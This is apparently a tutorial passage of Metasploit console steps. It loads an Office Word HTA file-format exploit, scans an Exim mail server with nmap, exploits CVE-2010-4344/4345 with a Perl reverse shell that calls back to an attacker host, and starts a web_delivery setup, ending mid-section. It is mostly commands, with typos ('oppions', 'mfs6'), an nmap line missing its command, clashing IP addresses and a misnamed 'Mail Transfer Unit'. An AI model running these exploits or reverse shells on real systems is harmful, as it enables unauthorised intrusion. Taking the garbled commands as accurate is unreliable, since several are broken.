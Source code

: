     msf6 > search type:exploit fileformat

**Load the Office Word HTA Exploit**

    msf6 > use exploit/windows/fileformat/office_word_hta
    
    msf6 > info
    
    msf6 > show oppions
    
    msf6 > set FILENAME example.doc
    
    msf6 > set URIPATH example
    
    msf6 > set SRVHOST 192.2.2.2

**Hacking an EXIM Email Server with Metasploit**

The key protocol for email is SMTP running by default on port 25. This protocol handles delivery of email between domains. Either IMAP or POP3 is used by the email client.

The software responsible for moving email between SMTP servers is referred to as the Mail Transfer Unit or MTU. There are numerous MTU's in Linux including, Sendmail, Postfix, and Exim.

    kali > nmap -sT -A 19.2.2.2 -p 25

nmap has identified an exim server on port 25.

If we use the --scripts switch combines with the script category such as "smtp" with the wildcard *, we can activate nmap to try all of the nmap scripts in the smtp category.

    kali > --scripts=smtp-* 193.2.2.2 -p 25

We know the server is exim and the nmap scripts relayed that it may be vulnerability to CVE-2010-4344 and CVE-2010-4345.

    msf6 > search type:exploit exim
    
    msf6 > use exploit/unix/smtp/exim4_string_format
    
    msf6 > info
    
    msf6 > set RHOSTS 192.2.2.2
    
    msf6 > set PAYLOAD cmd/unix/reverse_perl

Note that it is a "reverse" shell. This meaning that it will call back to our system.

    msf6 > set LHOST 182.2.2.2
    
    mfs6 > set LPORT 443
    
    msf6 > exploit

First, let's check to see what user we are. We can execute either id or whoami. Next, let's check to see where we are in the Linux file system (pwd) and the version of the server ( uname -a).

**Web Delivery in Windows**

    msf6 > use exploit/multi/script/web_delivery
    
    msf6 > info
    
    msf6 > set LHOST 192.2.2.2
    